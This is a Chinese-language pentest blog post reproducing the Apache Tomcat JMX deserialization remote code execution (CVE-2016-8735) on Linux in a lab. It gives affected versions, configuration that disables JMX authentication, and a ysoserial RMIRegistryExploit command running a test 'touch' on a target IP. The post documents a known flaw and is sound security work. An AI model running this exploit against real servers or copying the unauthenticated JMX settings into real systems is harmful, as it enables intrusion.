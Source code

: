 ```yaml
---
layout:     post
title:      "Apache Tomcat Remote Code Execution(CVE-2016-8735)"
subtitle:   "Pentesting on linux"
date:       2016-12-10
author:     "Urahara"
header-img: "img/Tomcat.png"
header-mask: 0.3
tags:
    - Tomcat 
    - 反序列化
    - Remote Code Execution


---
```


### Versions Affected

```
Apache Tomcat 9.0.0.M1 to 9.0.0.M11
Apache Tomcat 8.5.0 to 8.5.6
Apache Tomcat 8.0.0.RC1 to 8.0.38
Apache Tomcat 7.0.0 to 7.0.72
Apache Tomcat 6.0.0 to 6.0.47
Earlier, unsupported versions may also be affected.
```

### Description

​	这个漏洞实质还是JMX反序列化漏洞，tomcat同样也用了JmxRemoteLifecycleListener这个监听器，但是tomcat在Oracle修复这个漏洞后自己没有及时更新，导致了反序列还依旧存在。网上搜了很多关于该漏洞的分析文章基本上都是0c0c0f牛在微信公众号里文章的转载或是变种，也基本都是在window系统上做的测试，所以也就想在linux也测试一下，也就有了这篇文章，大牛们勿喷呐= =、。

### Test Environment

> Linux Ubuntu server x86
>
> **Apache Tomcat** (http://archive.apache.org/dist/tomcat/tomcat-8/v8.0.36/bin/apache-tomcat-8.0.36.tar.gz)
>
> **catalina-jmx-remote** (http://archive.apache.org/dist/tomcat/tomcat-8/v8.0.36/bin/extras/catalina-jmx-remote.jar)  //添加至%TOMCAT_HOME%/lib/目录下
>
> **Groovy** (https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar)    //添加至 %TOMCAT_HOME%/lib/目录下
>
> **POC** (https://github.com/frohoff/ysoserial)

### Test Steps

1. 修改 tomcat server.xml 配置文件，添加以下内容：

   ```xml
   <Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
   ```

2. 修改 tomcat/bin 目录下 catalina.sh ，在# ----- Execute The Requested Command --------处添加以下内容：

   ```basic
   # ----- Execute The Requested Command -----------------------------------------
   CATALINA_OPTS="$CATALINA_OPTS
   -Dcom.sun.management.jmxremote
   -Dcom.sun.management.jmxremote.ssl=false
   -Dcom.sun.management.jmxremote.authenticate=false  //设为无账号密码认证
   -Djava.rmi.server.hostname=192.168.64.7"  //设置hostname为服务器ip地址，否则JMX无法进行远程访问
   ```

3. ./startup.sh启动tomcat服务

4. 执行POC

   ```
   java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.64.7 10001 Groovy1 "touch /tmp/tomcat_test"
   ```

   ![Tomcat-CVE-2016-8735](http://reverse-tcp.xyz/img/Tomcat-CVE-2016-8735.png)

   -----

   ​	关于linux配置tomcat运行远程监控（JMX）这里有个坑，网上搜到的绝大多数关于linux下tomcat jmx配置的文章，都使用了只修改catalina.sh为以下内容的方法，包括[Zabbix Wiki](https://www.zabbix.com/documentation/2.0/manual/config/items/itemtypes/jmx_monitoring)也是推荐的这种方式：

   ```basic
   CATALINA_OPTS="$CATALINA_OPTS 
   -Dcom.sun.management.jmxremote
   -Dcom.sun.management.jmxremote.port=9999
   -Dcom.sun.management.jmxremote.ssl=false
   -Dcom.sun.management.jmxremote.authenticate=false
   -Djava.rmi.server.hostname=192.168.64.7"
   ```

   ​	但就这种方式而言，需要注意的是 catalina.sh 中提供的默认变量名 JAVA_OPTS 和 CATALINA_OPTS。由于 JAVA_OPTS 所添加的参数会在 tomcat 开启和关闭时都运行，所以如果你把 `Dcom.sun.management.jmxremote.port=9999` 写在 JAVA_OPTS 中时，关闭服务的时候是会报错的，而且在该漏洞场景中攻击利用也是不会成功的，因此需要注意的是在平常渗透过程当中若在linux下遇到了该漏洞，利用不成功也是正常的。

   -----

   ### Referer

   [http://seclists.org/oss-sec/2016/q4/502](http://seclists.org/oss-sec/2016/q4/502)

   微信公众号：0c0c0f

   ​